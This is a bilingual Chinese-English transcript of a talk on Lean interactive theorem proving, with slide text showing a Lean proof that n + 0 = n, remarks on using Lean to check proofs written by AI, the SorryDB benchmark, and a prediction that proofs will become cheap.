

**幻灯片文字 / Slide text**

```
import Mathlib
theorem add_zero_eg :             -- Proof:
∀ n : ℕ, n + 0 = n := by
  intro n                         -- Let n be an arbitrary natural number.
  induction n with                -- We proceed by induction on n.
  | zero => rfl                   -- Base case: n = 0, both sides 0 by definition.
  | succ k ih =>                  -- Inductive step: assume k + 0 = k.
    simp only [Nat.succ_add, ih]  --   Then (k+1) + 0 = (k+0) + 1 = k + 1. QED!
A theorem as code
```

幻灯片 44 Slide 44



**幻灯片文字 / Slide text**

```
import Mathlib
theorem add_zero_eg :             -- Proof:
∀ n : ℕ, n + 0 = n := by
  intro n                         -- Let n be an arbitrary natural number.
  induction n with                -- We proceed by induction on n.
  | zero => rfl                   -- Base case: n = 0, both sides 0 by definition.
  | succ k ih =>                  -- Inductive step: assume k + 0 = k.
    simp only [Nat.succ_add, ih]  --   Then (k+1) + 0 = (k+0) + 1 = k + 1. QED!
A theorem as code
```

幻灯片 45 Slide 45

[figure not shown]

**幻灯片文字 / Slide text**

```
import Mathlib
theorem add_zero_eg :             -- Proof:
∀ n : ℕ, n + 0 = n := by
  intro n                         -- Let n be an arbitrary natural number.
  induction n with                -- We proceed by induction on n.
  | zero => rfl                   -- Base case: n = 0, both sides 0 by definition.
  | succ k ih =>                  -- Inductive step: assume k + 0 = k.
    simp only [Nat.succ_add, ih]  --   Then (k+1) + 0 = (k+0) + 1 = k + 1. QED!
A theorem as code
https://lean-lang.org/
```

我们可以把它写成 Lean 定理；当然，也有其他交互式定理证明器可选。这里就是一个以代码形式表达的定理，也就是刚才那个给某个数加上零的例子。人类证明大概会这样写：取任意自然数 n。We can write them down as Lean theorems or like other interactive theorem provers are available. So, like, you know, here's a theorem as a bit of code. Um well, this is one from earlier where we sort of say, "Okay, well, we add zero to something." And then the hu the human proof would be something like we take n it's an arbitrary natural number.

对 n 进行归纳。基础情形是 n 等于零，显然，按照定义，两边都是零。归纳情形中，假设 k + 0 = k，再进行归纳步骤。我们可以把它写成 Lean 代码。Lean 很不错。We proceed by induction on n and then we have a base case, which is n equals zero. And obviously in that case, they're both zero by definition. Um we have the inductive case and so, assume k plus zero equals k. And then we have like the inductive kind of step as well. And we can write this down in code in Lean. Lean's very nice.

这相当于说，我们有一个严谨论证，遵循人类推理的结构，同时又被写成了代码。先引入一个自然数，再做归纳；在零的情形里，rfl 表示这基本上按定义就是显然成立的。Um So, this is just a way of kind of saying that we have like a rigorous argument that follows the structure of the can human reasoning, but it's written down as a piece of code as well. So, we have like we introduce we have a natural number, we do induction and we're zero well, ruffle says that it's basically sort of obvious.

然后，处理 k 的后继，有归纳假设，再做一些化简。这是一件非常好的事，因为我们现在有办法把数学事实写成定理。这属于交互式定理证明的整体思想，其实已经很古老，大概可以追溯到二十世纪七十年代。Oh, we have like the we have the successor of k and we have induction hypothesis and then we do some simplification. So, this is kind of This is a really nice thing to be able to do because now we have a way of writing down mathematical facts as kind of theorems. And like this is kind of part of this whole idea of like interactive theorem proving, which actually is like very old. It's like probably 1970s.

幻灯片 46 Slide 46



**幻灯片文字 / Slide text**

```
Interactive Theorem Proving / ITP
A language of math proofs, and a proof checker
- Highly predictable
- Slow, auditable, legible
- Guarantee correctness
Tools:  Rocq (prev. Coq), Isabelle/HOL, Lean
```

Lean 是一个很好的工具，但从很多方面看，它也是此前许多研究同类思想的工具的集大成者。只是数学让这件事，比以前可行得多。Um And Lean is a fine tool, but in a lot of ways, what it is the culmination of a lot of other tools that have been working on this kind of idea. It's just that mathematics has made it much more viable than it was before.

好处在于，把证明写在交互式定理证明器里，我们既有办法表达证明，又有高度可靠的检查方式。它可审计，清楚可理解，我们能理解它为什么正确，并据此确信证明是正确的。请说。The nice features that we have are that when we have proofs written in an interactive theorem prover, we have a way of writing down our proof, and we have a way of checking it that's highly reliable. So, it's auditable. They you know, this legible. We can understand why it's correct. And we can use that as kind of the way to be sure that our proofs are correct. Oh, go ahead.

## AI 证明与数学中的信任AI Proofs and Trust in Mathematics

Audience你刚才说，数学让它比以前容易得多。You said that mathematics has made it a lot easier than it was before.

Mike Dodds我是说，不好意思，是 AI 让它比以前容易得多。I mean, I sorry, AI has made it a lot easier than it was before.

Audience好。不过，从七十年代起，AI 就已经在做这件事了。Okay. But AI was doing this since the '70s.

Mike Dodds对。从某种程度上说，现在这代神经网络 AI 的能力，似乎确实不同。不过你说得对，AI 数学当然有一段长期连续发展的历史。Yeah, I mean, sort of like the current generation of neural AI seems different in, you know, it's just its capabilities. But you're right, there's a long continuum about AI mathematics, of course.

幻灯片 47 Slide 47

[figure not shown]

**幻灯片文字 / Slide text**

```
Proving a Lean theorem
-- Proof:
-- Let n be an arbitrary natural number.
-- We proceed by induction on n.
-- Base case: n = 0, both sides 0 by definition.
-- Inductive step: assume k + 0 = k.
--   Then (k+1) + 0 = (k+0) + 1 = k + 1. QED!
```

举个例子。这个二维码，链接到 Lean 在线练习环境；如果愿意，大家回家也可以跟着做。你可以在 Lean 中写下证明，再以很直观的方式，逐步走过整个过程，看着数学推理发生，看着证明真正展开。Um So, like here's an example. I mean, so this QR code is a link to like the Lean playground, so you can in fact follow along at home if you would like to do that. Um So, you can sort of write this in Lean, and you can sort of step through the process that in a very nice way. You can sort of see the mathematics happening, see the proof actually happening.

**展开前面的幻灯片（48）Show preceding slides (48)**

幻灯片 48 Slide 48

[figure not shown]

**幻灯片文字 / Slide text**

```
Proving a Lean theorem
-- Proof:
-- Let n be an arbitrary natural number.
-- We proceed by induction on n.
-- Base case: n = 0, both sides 0 by definition.
-- Inductive step: assume k + 0 = k.
--   Then (k+1) + 0 = (k+0) + 1 = k + 1. QED!
```

幻灯片 49 Slide 49

[figure not shown]

**幻灯片文字 / Slide text**

```
Proving a Lean theorem
-- Proof:
-- Let n be an arbitrary natural number.
-- We proceed by induction on n.
-- Base case: n = 0, both sides 0 by definition.
-- Inductive step: assume k + 0 = k.
--   Then (k+1) + 0 = (k+0) + 1 = k + 1. QED!
```

比如，我们说：“令 n 为自然数。”于是，我们知道 n 的类型是 Nat，下面的目标状态是 n + 0 = n，也就是我们想证明的东西。可以把它分解为零的情形，此时目标是 0 + 0 = 0，这是一个相当显然的事实。So, you know, we can say, "Okay, well, let n be a natural number." Well, we know that n is a nat, and we've got a goal state at the bottom here saying n + 0 = n. That's what we want to get to. We can kind of break this down into the zero case. And in that case, we say 0 + 0 = 0. This is a quite an obvious fact.

幻灯片 50 Slide 50

[figure not shown]

**幻灯片文字 / Slide text**

```
Proving a Lean theorem
-- Proof:
-- Let n be an arbitrary natural number.
-- We proceed by induction on n.
-- Base case: n = 0, both sides 0 by definition.
-- Inductive step: assume k + 0 = k.
--   Then (k+1) + 0 = (k+0) + 1 = k + 1. QED!
```

然后，还有归纳情形。我们知道归纳假设 k + 0 = k，下面是相应的目标状态，很容易看出它们之间的推导关系。Lean 给了我们一种很好的方式，把数学事实拆开，再重新组装起来。And then we also have the inductive case where we say, "Okay, well, we know as the induction hypothesis k + 0 = k." And then at the bottom, we have the kind of goal state, and it's sort of fairly obvious why these two follow from each other. Um So, Lean gives us a nice way of like dismantling mathematical facts and like putting them back together in a nice way.

幻灯片 51 Slide 51

[figure not shown]

**幻灯片文字 / Slide text**

```
Proving a Lean theorem
-- Proof:
-- Let n be an arbitrary natural number.
-- We proceed by induction on n.
-- Base case: n = 0, both sides 0 by definition.
-- Inductive step: assume k + 0 = k.
--   Then (k+1) + 0 = (k+0) + 1 = k + 1. QED!
```

然后，我们完成证明，不再有待解决的目标，定理就证明完了。这是一种高度可信的状态。And then we can kind of prove this, to have no more goals, you know, the theorem is done. This is like a high sort of trustworthy state to be in. So, okay.

**展开前面的幻灯片（52）Show preceding slides (52)**

幻灯片 52 Slide 52



**幻灯片文字 / Slide text**

```
math AI
ꙮ̃ƨ̛ʚ̤ɐ̧ʁ̶ɣ̨̊ƕ̸ɘ̴̆ʬ̡ɤ̂ʮ̧ɯ̃ɞ̶̨ʃ̤ ...
... wait I know this:
theorem add_zero_eg:
∀ n : ℕ, n + 0 = n := by
  intro n
  induction n with
  | zero => rfl
  | succ k ih =>
    simp only [Nat.succ_add, ih]
Lean proofs are (mostly) trustless
checker
theorem add_zero_eg:
∀ n : ℕ, n + 0 = n
```

幻灯片 53 Slide 53

[figure not shown]

**幻灯片文字 / Slide text**

```
math AI
ꙮ̃ƨ̛ʚ̤ɐ̧ʁ̶ɣ̨̊ƕ̸ɘ̴̆ʬ̡ɤ̂ʮ̧ɯ̃ɞ̶̨ʃ̤ ...
... wait I know this:
theorem add_zero_eg:
∀ n : ℕ, n + 0 = n := by
  intro n
  induction n with
  | zero => rfl
  | succ k ih =>
    simp only [Nat.succ_add, ih]
Lean proofs are (mostly) trustless
checker
theorem add_zero_eg:
∀ n : ℕ, n + 0 = n
```

因此，Lean 证明在很大程度上，不依赖对证明者的信任。这让我们可以利用 AI 提供的数学结果，而不必自己去解析那些复杂的数学 PDF。So, Lean proofs are mostly trustless and this gives us a way of like actually kind of using the AI as a kind of source of truth without having to without having to kind of you know, sort of like you know, parse all these complicated math PDFs or whatever.

我们有一个定理，要求数学 AI 给出证明，再交给检查器，检查器将其交给 Lean，由 Lean 判断是否真的做对了。这也很好，因为数学 AI 经常犯错，或者说，AI 会犯各种各样的错。But we have our theorem, we have asked the math AI to kind of come up with something and then we kind of hand it over to the checker and the checker hands it over to Lean and then Lean is the thing that actually finds out whether or not you got it right or not. This also is nice because often the math AIs make mistakes, you know, or like AIs make mistakes of all kinds.

但这时，我们也拥有一个非常强的反馈信号，可以说：“你做错了，回去再看看。”从直觉上说，这些 AI 可以变得非常可靠，可以被推动到可靠的状态，但前提是，有办法判断它是否走在正确的方向上。But then we also have like a really strong signal because you can say, "Okay, well, you got this wrong. Go back and like take a look at this again." And like intuitively like these AIs are very reliable. They can be pushed to reliability, but like what you need is some way of it telling whether it's on the right track.

这是把 AI 推向正确状态的一种非常有力的办法。而且，我们也开始看到 AI 擅长 Lean。这是一种与做数学不同的任务，更像编程任务；如果说它更难，也需要说明，是在什么意义上更难。And like this is a really powerful way of kind of pushing it into the kind of into the right state. And we also see the AI starting to get good at Lean. So, the AIs are the AIs sort of like in if this is kind of a harder task well, it's sort of a different task from like doing mathematics. It's more like a coding task.

## 定理证明的演变：从 Lean 到 AI 驱动The Evolution of Theorem Proving: From Lean to AI-Driven

幻灯片 54 Slide 54



**幻灯片文字 / Slide text**

```
AI is getting good
at Lean
```

如果既要证明费马大定理，又要把它形式化，那确实是两件事，所以更难。但它也有自己独特的难点：有时，编写 Lean 定理本身就很困难。不过，我们确实看到 AI 开始擅长 Lean。这里就是一项证据。And so, it's harder in the sense that if you want to both prove Fermat's Last Theorem and formalize it, that's two things to do. But it definitely also has its own kind of quality of difficulty, which is like it's just hard to kind of write Lean theorems sometimes. But we do see in fact the AI getting good at Lean. Here's like one bit of evidence.

幻灯片 55 Slide 55



**幻灯片文字 / Slide text**

```
SorryDB: Can AI Provers Complete Real-World Lean Theorems?,
Letson et al, March 2026, https://arxiv.org/abs/2603.02668
```

- https://arxiv.org/abs/2603.02668

这来自三月份，可以说刚刚出炉。SorryDB 基本上取材于 Lean 社区，他们收集了一批定理，覆盖了相当广泛的不同定理类型。This is from March, so again, this is like hot off the presses. Um so, this is I think that sorry DB is basically was taken out of the it's the it's from the kind of like Lean community. It's a bunch of like theorems they kind of grabbed. So, a fairly kind of broad sort of spectrum of different theorems.

根据我们观察到的情况，大约九个月前，AI 在定理证明上还很糟糕；现在已经从“还不错”，走到了“相当值得认真对待”，而且进步并没有明显放慢。我们看到，这种势头正在积累。Um and I think we can we will I think that anecdotally we've seen like the AI going from being really terrible at theorem proving outside of about 9 months ago to being quite good to being respectable and not really slowing down all that much. We see kind of momentum building for this.

## AI 时代的证明：证明质量如何提高Proofs in the Age of AI: How Proof Quality Is Improving

我们都知道，一个好迹象是，这里最前沿的那些结果，似乎采用了迭代方法，基本上就是进行多轮尝试之类的方式，而效果会好得多。And I mean we all know that kind of good indicator is that the leading edge here is the sort of these what we see sort of like these I think these iterative ones are ones where basically they kind of they do sort of like multiple rounds something like that. And that's kind of it does much better.

Audience问个问题。第一轮和第二轮之间，发生了什么？Just like the question. But what happens between the first and the second round?

它们会得到某种反馈，还是……They get some feedback or

Mike Dodds这个问题超出了我对这篇论文的了解。我几天前才发现它，还没来得及深入研究。不过，pass@1 本身，应该是一个比较清楚、值得单独思考的指标。Yeah, I think that's beyond what I've dug into on this paper. Um it's I would I this is this is something that I found a couple of days ago. I just haven't had time. Um But yeah, I think pass it one is a kind of like pretty clean kind of question to think about if yeah.

幻灯片 56 Slide 56

[figure not shown]

**幻灯片文字 / Slide text**

```
https://leodemoura.github.io/static/etaps2026/#/13
```

- https://leodemoura.github.io/static/etaps2026/#/13

另一个表明 AI 确实开始擅长证明和 Lean 的迹象，是已经有真正的公司围绕它建立商业模式。我们看到了不少相关动向。这来自 Leo de Moura 不久前的一套幻灯片。Um and I mean another sign that I think the AIs are getting legitimately good at like proof and Lean is that we are seeing like actual companies building their business models around it. And so we've seen a bunch of like stuff. This is from Leo de Moura's slide deck he did a couple of a little while ago.

下面提到的这些公司，Harmonic、Axiom、Logical Intelligence、Math Inc，它们的商业模式，是构建面向 Lean 的数学求解器。他们认为，这项技术不仅对数学本身，而且对数学之外的事情，也会非常有价值。当然，这些商业判断，就超出我的职责范围了。Um But these companies mentioned at the bottom, Harmonic, Axiom, Logical Intelligence, Math Ink, their business model is that they are building mathematical solvers and they are building them targeting lean. And their theory is that this is going to be a very valuable technology for not just mathematics, but beyond mathematics. I mean, this is above my pay grade.

[笑声] 不管这是不是一个好的商业模式，我们确实看到了，他们在构建工具，而这些工具在 Lean 相关任务上取得了成功。所以，大概可以说，我们正顺风而行，看到了这个方向上的发展势头。[laughter] — Um, so the So we have like these and so but I mean, whether or not this is like a good business model or not, what we do see is that they are kind of building tools and those tools are proving to be successful against the lean sort of targets. Oh, so yeah, this is kind of I guess like fair winds sort of fair weather like, you know, we're seeing momentum in this direction.

幻灯片 57 Slide 57



**幻灯片文字 / Slide text**

```
Prediction:
proofs will be cheap
```

我们看到，证明越来越便宜，自动化证明越来越便宜，而且下降得很快。现在，我们生活在一个奇怪的过渡状态：还没有进入人类数学被 AI 取代的世界。We're seeing like proofs getting cheaper and we're seeing automated proofs getting cheaper and we're seeing them get cheaper quite quickly. Um, and so I think that, you know, there are like we're sort of like living in this strange we live in this strange state now where we do not live in a world where like human math, you know, human mathematics has been replaced by the AIs.

但是，趋势线一直在上升，AI 的能力一步一步显著提高。如果这个趋势持续下去，最终就是 AI 非常擅长数学，也非常擅长证明定理。请说。Um, but we are seeing the trend lines keep on going up and the AIs are getting significantly better step by step. And the end state of that is that like the AIs become very good at mathematics. They become very good at proving theorems. Yeah, go ahead.

Audience我有点好奇，感觉这类工作中，至少有三种不同的证明任务。Uh out of curiosity, I feel like there's at least three flavors of proof in this kind of work.

一种是，我有一个叶子层面的定理，细节很繁琐，希望把证明补上。另一种是，我处在证明展开树的某个位置，希望把它分解并补全，过程比较机械；主要是希望引理能让事情保持可管理、可读。还有一种是，我得自己提出一个引理，并找到合适的归纳假设。One is I have sort of a leaf theorem and it's fiddly and I want to fill it in. Another is I'm somewhere in my proof development tree and I want to, you know, break things down and fill it in, but it's fairly mechanical. I want the limits mostly to keep things manageable, legible. But another is I need to come up with a lemma and figure out the induction hypothesis.

对于这些基准，以及 AI 开始擅长 Lean 的那些场景，你是否了解，人们到底在用 AI 做哪一种证明？Do you have a sense for across these benchmarks and these places where AIs are getting good at Lean, what kinds of proofs people are doing with them?

Mike Dodds在数学这一边，我觉得，其中一些任务，确实还要求一定程度的引理发现。I think on the math side, I think I think some of these sort of they require kind of modest amounts of like lemma discovery as well.

如果我理解得没错，刚才那个例子，确实需要真正的“创造力”，需要发现抽象。我觉得，你说到了一个很重要的区别。一方面，你可以拿 Andrew Wiles 那篇一百页的费马大定理论文，然后逐字逐句地转换成 Lean。Like I think that the A dash one is like genuinely require if I understood right, required sort of actual like you know, what you might say like creativity, abstraction discovery. I think that like it's really I mean I think you're making a great point. There's like on the one hand there's sort of you take like the 100 page Andrew Wiles FLT kind of paper and you just sort of transliterate that into Lean.

这叫自动形式化。从一个角度说，其中并没有创造性，因为论文已经提供了所需的全部结构。That's like auto formalization and really there's sort of in one way there's no creativity there because like the paper gives you all of the structure that you need, right?

## 选择性取例Cherry Picking

另一方面，还有一个非常大胆的想法：只把最顶层的定理交给 AI，让它自己搭起证明的全部内部结构，找出所有内部引理。这是一个更难的问题。我个人认为，AI 也正在朝着能做到这件事的方向前进。Um on the other hand, there's like the totally kind of crazy idea that you could give the just the top level theorem to the AI and then ask it to kind of like scaffold the entire interior structure of the proof and figure out all of the interior lemmas and all this kind of stuff. I think that's kind of just a harder problem. I Personally, I think that the AIs are on track to do that as well.

我觉得，这很有可能实现，原因与 AI 能做软件工程类似。它们能编写内部函数，也就可能编写内部引理。不过，我同意，这在智力上，是一种要求更高的任务。I think it's quite likely that they will for the same reason that they can do you know, the same reasons that they can do kind of like software engineering, they will be able to do that kind of they can write internal functions, they can also write internal lemmas. But it is like an intellectually more demanding task. I agree.

这也许就更接近于这样一个问题：我们是否预期，数学家这一整类活动会被取代？总之，我之所以把这些话明确说出来，部分原因是，我确信两年后，会有人来找我说：“你说证明会变便宜，可这个证明还没解决呢。”我认为，值得把它说出来，因为这本来就是我们应该考虑的一种可能性。So like then maybe that's more like you know, do we expect mathematicians to be replaced as a category of like activity? Yeah. Anyway, so part of the purpose you know, I'm sort of saying this out loud, you know, in 2 years time I'm sure that someone will come up to me and said, "Hey, you said proofs would be cheap and this proof isn't solved yet." Um so I think it's good to kind of like you know, sort of say this out loud in part because I think that this is like a part of the probability right?

我们不知道，AI 接下来会发生什么。但我觉得，有一种可能的世界，证明会在相当短的时间内变得便宜。如果如此，我们就应该认真思考，届时要做什么。So, you know, like we don't know what is going to happen next in AI. And but I think there is a world that we may live in where proofs end up being cheaper on quite short timelines. And in that case, we should think hard about what we would do if that was the case.

不要把它当成一个确定承诺，也别把房子抵押了来下注。[笑声] 但这确实是可能性分布中的一部分。And so, this is like I don't think you should take this as like you know, I mean don't mortgage the house to on the best on this. But it's — [laughter] — But it's like it's definitely kind of part of the distribution.

Audience你认为，会有更好的……我的问题是：哪些证明会变便宜？我是说，已经有一些……另一些也许永远不会。但问题是，究竟哪些会变便宜？You think that there's a better — Question. Which proofs will be cheap? — Well, I mean already there some maybe will never be, but the question is which ones will be cheap?

幻灯片 58 Slide 58

